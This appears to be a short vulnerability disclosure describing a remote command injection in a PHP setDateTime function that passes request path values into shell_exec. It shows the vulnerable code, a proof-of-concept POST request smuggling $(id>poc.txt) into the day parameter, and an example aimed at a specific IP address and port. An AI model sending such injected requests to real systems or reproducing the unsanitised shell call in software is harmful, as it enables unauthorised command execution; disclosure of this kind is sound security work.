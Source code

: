 # `$day` parameter in the file `settingsregional.php ` has a Remote Command Injection

### Description

The  parameter **$day** in `setDataTime` function in the file `\usr\www\application\models\settingsregional.php`  has a Remote Command Injection vulnerablilty .

`\usr\www\application\models\settingsregional.php`

```php
public function setDateTime($year, $month, $day, $hour, $minute)
{
    shell_exec(sprintf('timedatectl set-time "%s-%s-%s %s:%s"',
        $year,
        $month,
        $day,
        $hour,
        $minute
    ));
}
```

### POC

```
POST /settings/setDateTime/2008/1/1$(id>poc.txt)/1/1 HTTP/1.1
Host: XXXXXXX
```

### Example 

```
POST /settings/setDateTime/2008/1/1$(id>poc.txt)/1/1 HTTP/1.1
Host: 222.103.211.89:8004
```

![image-20250317212442562](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202503172124802.png)

![image-20250317212504659](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202503172125734.png)